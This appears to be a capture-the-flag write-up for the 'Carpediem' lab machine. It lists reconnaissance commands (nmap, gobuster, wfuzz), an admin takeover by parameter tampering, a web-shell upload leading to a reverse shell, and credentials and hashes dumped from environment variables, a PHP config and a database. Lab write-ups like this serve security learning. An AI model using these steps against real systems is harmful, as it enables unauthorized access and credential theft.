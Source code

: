# Carpediem

---

## Enumeration


- nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 962176f72dc5f04ee0a8dfb4d95e4526 (RSA)
|   256 b16de3fada10b97b9e57535c5bb76006 (ECDSA)
|_  256 6a1696d80529d590bf6b2a0932dc364f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Comming Soon
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- GoBuster in DirScan_1
`gobuster dir -u http://carpediem.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt | tee DirScan_1`

- Subdomain fuzz
`└─$ wfuzz -c -u http://carpediem.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.carpediem.htb" --hw 161 | tee subDomainFuzz`

found `portal` subdomain

- edit UpdateAccount request to login_type=1, go to /admin, IM ADMIN

- Image upload vulnerability in admin profile edit, uploaded a web shell and got a reverse shell as `www-data` in a docker container

---

## Foothold

- Checking env variable got mysql creds:

password: 3dQXeqjMHnq4kqDv
hostname: 3c371615b7aa
port: 3306
IP: 172.17.0.3

```bash
www-data@3c371615b7aa:/$ env

MYSQL_PORT_33060_TCP_ADDR=172.17.0.3
MYSQL_PORT=tcp://172.17.0.3:3306
MYSQL_PORT_3306_TCP_ADDR=172.17.0.3
MYSQL_NAME=/portal/mysql
MYSQL_ENV_MYSQL_ROOT_PASSWORD=3dQXeqjMHnq4kqDv
MYSQL_PORT_3306_TCP_PORT=3306
HOSTNAME=3c371615b7aa
PHP_VERSION=7.4.25
APACHE_CONFDIR=/etc/apache2
PHP_INI_DIR=/usr/local/etc/php
GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
MYSQL_ENV_MYSQL_MAJOR=8.0
PHP_LDFLAGS=-Wl,-O1 -pie
MYSQL_PORT_3306_TCP=tcp://172.17.0.3:3306
MYSQL_ENV_GOSU_VERSION=1.12
LANG=C
MYSQL_PORT_33060_TCP_PROTO=tcp
```

- Also checked some interesting config files and got more creds:

*initialize.php*

```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','http://portal.carpediem.htb/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"mysql");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"portaldb");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"J5tnqsXpyzkK4XNt");
if(!defined('DB_NAME')) define('DB_NAME',"portal");
?>
```

- Tunneled the connection using chisel and started enumerating other docker containers

- on mysql on `172.17.0.3` found users table:

```
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
| id | firstname | lastname | gender | contact                | username | password                         | address | avatar                            | last_login | login_type | date_added          | date_updated        |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
|  1 | Jeremy    | Hammond  | Male   | jhammond@carpediem.htb | admin    | b723e511b084ab84b44235d82da572f3 |         | uploads/1635793020_HONDA_XADV.png | NULL       |          1 | 2021-01-20 14:02:37 | 2022-04-01 23:34:50 |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
```